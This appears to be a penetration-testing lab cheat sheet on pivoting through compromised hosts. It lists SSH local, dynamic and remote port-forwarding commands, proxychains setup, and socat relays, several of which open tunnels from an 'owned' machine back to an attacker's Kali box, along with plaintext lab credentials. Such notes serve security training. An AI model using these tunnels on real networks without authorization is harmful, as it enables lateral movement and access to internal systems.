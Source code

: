 <a name="ssh-local-port-forwarding"></a>
## SSH Local Port Forwarding
`$ ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215` 
> from owned machine to smb target

`kali@kali:~$ smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234`

<a name="ssh-dynamic-port-forwarding"></a>
## SSH Dynamic Port Forwarding
`$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215` 
> on owned machine to target

`$ tail /etc/proxychains4.conf`

`$ socks5 Owned_machine_IP 9999`

`$ proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234` 

> to target machine

<a name="ssh-remote-port-forwarding"></a>
## SSH Remote Port Forwarding
`kali@kali:~$ sudo systemctl start ssh`

`$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@IP_Kali`

> On owned machine, from local to target through Kali.

`kali@kali:~$ psql -h 127.0.0.1 -p 2345 -U postgres`

`kali@kali:~$ ssh -R 4444:localhost:4444 web_svc@192.168.244.147`

> Redirect 4444 inconming traffic from MS01 to Kali

`$ ssh -R *:60002:127.0.0.1:60002 kali@IP_Kali`

> on owned machine, redirect to local port. Can open http://127.0.0.1:60002/ from Kali

<a name="ssh-remote-dynamic-port-forwarding"></a>
## SSH Remote Dynamic Port Forwarding
`$ ssh -N -R 9998 kali@IP_Kali`
> From owned machine

	kali@kali:~$ tail /etc/proxychains4.conf
	socks5 127.0.0.1 9998

`kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64` 
> to target

<a name="using-sshuttle"></a>
## Using sshuttle
`$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22`

> On owned machine
